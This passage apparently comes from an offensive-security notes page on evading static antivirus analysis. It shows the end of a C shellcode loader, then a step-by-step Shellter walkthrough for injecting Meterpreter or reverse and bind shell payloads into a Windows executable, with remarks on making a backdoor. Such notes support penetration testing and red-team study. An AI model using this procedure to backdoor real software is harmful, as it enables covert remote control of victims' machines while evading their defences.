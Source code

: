 ```c
    }
#ifdef _DEBUG
    else {
        printf("[+][CreateProcess] Process created!\n");
    }
#endif

    Sleep(2000);

    return 0;
}
```

### Shellcode loader for static analysis evasion

###### [Windows] Shellter

`Shellter` is a dynamic shellcode injection tool that can be used in order to
inject shellcode into native Windows applications (currently 32-bit
applications only for the free version). The shellcode can be self made or
generated within `Shellter` through a framework, such as Metasploit.

The following built-in shellcodes are currently supported:

```
Meterpreter_Reverse_TCP
Meterpreter_Reverse_HTTP
Meterpreter_Reverse_HTTPS
Meterpreter_Bind_TCP
Shell_Reverse_TCP
Shell_Bind_TCP
WinExec
```

The procedure to create a binary is as follow:

```
$ shellter.exe

Choose Operation Mode - Auto/Manual (A/M/H): A
Perform Online Version Check? (Y/N/H): N

PE Target: <BINARY_TO_INJECT_INTO>

[...]

# Check if the chosen binary match the OS version attacked
Minimum Supported Windows OS: 4.0

# Stealth Mode preserves the original functionality of the infected PE file, so "Stealth" refers to the human factor.
# If you just need a backdoor don't enable this feature.
Enable Stealth Mode? (Y/N/H): N

************
* Payloads *
************
[1] Meterpreter_Reverse_TCP   [stager]
[2] Meterpreter_Reverse_HTTP  [stager]
[3] Meterpreter_Reverse_HTTPS [stager]
[4] Meterpreter_Bind_TCP      [stager]
[5] Shell_Reverse_TCP         [stager]
[6] Shell_Bind_TCP            [stager]
[7] WinExec
# L: One of the above payload
# C: Custom shellcode, a file path must be provided
```
